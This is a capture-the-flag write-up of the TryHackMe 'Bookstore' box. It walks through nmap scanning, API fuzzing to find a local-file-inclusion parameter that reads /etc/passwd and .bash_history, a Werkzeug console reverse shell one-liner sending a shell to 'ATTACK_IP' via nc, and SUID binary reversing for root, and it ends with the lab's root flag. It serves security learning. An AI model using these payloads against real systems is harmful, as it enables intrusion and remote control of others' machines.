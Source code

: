 ```yaml
---
title: "TryHackMe | Bookstore"
layout: post
date: 2023-09-29 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Fuzzing
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140127.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144510.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>